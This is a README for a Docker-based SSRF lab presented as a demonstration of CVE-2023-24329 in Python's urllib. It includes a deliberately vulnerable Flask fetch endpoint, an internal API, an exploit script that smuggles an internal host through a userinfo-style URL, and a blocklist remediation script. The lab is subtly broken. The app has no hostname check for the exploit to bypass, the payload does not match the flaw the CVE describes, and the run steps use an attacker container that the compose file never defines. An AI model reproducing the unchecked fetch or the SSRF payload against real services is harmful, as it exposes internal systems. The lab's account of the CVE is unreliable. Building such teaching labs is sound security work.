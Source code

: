 # urllib_ssrf_lab

A demonstration of [CVE-2023-24329](https://nvd.nist.gov/vuln/detail/CVE-2023-24329) – a URL parsing vulnerability in Python’s `urllib` that can be abused to bypass hostname checks and perform SSRF (Server-Side Request Forgery).

## 🗂 Directory structure
```
urllib_ssrf_lab/
├── docker-compose.yml
├── vulnerable_app/
│   ├── Dockerfile
│   └── app.py
├── internal_api/
│   ├── Dockerfile
│   └── app.py
├── exploit.py
├── remediate.py
└── README.md
```

---

### vulnerable_app/Dockerfile
```Dockerfile
FROM python:3.9-slim
WORKDIR /app
COPY app.py .
RUN pip install flask
EXPOSE 5000
CMD ["python", "app.py"]
```

### vulnerable_app/app.py
```python
from flask import Flask, request
import urllib.request

app = Flask(__name__)

@app.route("/fetch")
def fetch():
    url = request.args.get("url")
    if not url:
        return "Missing URL parameter", 400

    try:
        with urllib.request.urlopen(url) as response:
            return response.read(), 200
    except Exception as e:
        return f"Request failed: {e}", 500

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

---

### internal_api/Dockerfile
```Dockerfile
FROM python:3.9-slim
WORKDIR /app
COPY app.py .
RUN pip install flask
EXPOSE 8000
CMD ["python", "app.py"]
```

### internal_api/app.py
```python
from flask import Flask

app = Flask(__name__)

@app.route("/")
def index():
    return "Internal API: You shouldn’t be here via SSRF!"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)
```

---

### docker-compose.yml
```yaml
version: '3'
services:
  vulnerable-app:
    build: ./vulnerable_app
    ports:
      - "5000:5000"
    networks:
      - ssrf-net

  internal-api:
    build: ./internal_api
    expose:
      - "8000"
    networks:
      - ssrf-net

networks:
  ssrf-net:
    driver: bridge
```

---

### exploit.py
```python
import requests

# This sends a deceptive URL
ssrf_url = "http://localhost:5000/fetch?url=http://127.0.0.1@internal-api:8000"

print("Sending SSRF attempt to vulnerable app...")
response = requests.get(ssrf_url)
print("Response:")
print(response.text)
```

---

### remediate.py
```python
import urllib.parse

def is_safe_url(url):
    parsed = urllib.parse.urlparse(url)
    hostname = parsed.hostname
    return hostname not in ("127.0.0.1", "localhost", "0.0.0.0", "internal-api")

url = input("Enter a URL: ")
if is_safe_url(url):
    print("Safe URL, proceeding with fetch...")
else:
    print("Blocked potentially unsafe URL.")
```

---



:

🧪 Run SSRF Exploit from Attacker Container
```bash

docker exec -it urllib_ssrf_lab-attacker-1 bash
pip install requests
python exploit.py
```
Expected output:

```bash
Sending SSRF attempt to vulnerable app...
Response:
Internal API: You shouldn’t be here via SSRF!
```

## 🛡 Remediation
```bash
python remediate.py
```

## ✅ Fix
- Use Python >= 3.11.4
- Sanitize input URLs before making outbound requests
- Implement allowlists or DNS/IP validation

